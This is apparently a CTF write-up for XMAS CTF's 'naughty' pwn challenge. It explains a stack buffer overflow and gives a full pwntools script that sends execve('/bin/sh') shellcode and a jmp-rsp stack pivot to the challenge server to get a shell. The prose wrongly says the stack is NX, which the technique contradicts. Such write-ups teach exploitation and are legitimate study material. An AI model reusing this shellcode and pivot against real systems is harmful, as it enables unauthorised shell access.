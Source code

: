 ## XMAS CTF: naughty [pwn]
![](naugthy_desc.png)

#### Standard buffer overflow which we can overwrite the return pointer, the catch is that we only have little control after taking program execution since we are only allowed a short amount of user input. 

#### We won't be able to perform a ropchain or get a leak, but we can execute shellcode since the stack is NX. My plan was to place the '/bin/sh' string and shellcode onto the stack then return to a gadget which jumps to the stack. Since I had no idea where the addresses where (but knew that stack offsets remained the same), I calculated the offset differences and made appropriate shellcode for it. The reason why I placed the /bin/sh string onto the stack earlier is because pushing values during the execution of our shellcode will affect the stack and fail to execute the next bytes of the shellcode. 

```python
from pwn import *

context.arch = 'amd64'
#p = process('./chall')
p = remote("challs.xmas.htsp.ro", 2000)
breakpoints = ['set disable-randomization off', 'break *0x4006b1']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))
print(p.recvuntil('XMAS\n'))

#: Exploit code here
jump_rsp = 0x000000000040067f

shellcode = asm('''

	xor rsi, rsi
	xor rdx, rdx
	xor rax, rax
	lea rdi, [rsp-8]
	mov al, 0x3b
	syscall
	''')

exploit = '/bin/sh\x00'
exploit += shellcode
exploit += '\xcc' * (46 - len(exploit))
exploit += p64(0xe4ff)
exploit += cyclic(2)
exploit += p64(jump_rsp)

#: sub rsp, 0x38
#: jmp rsp
exploit += "\x48\x83\xEC\x38\xFF\xE4" #: jmp to shellcode

p.sendline(exploit)
p.interactive()
```
![](naughty_shell.png)
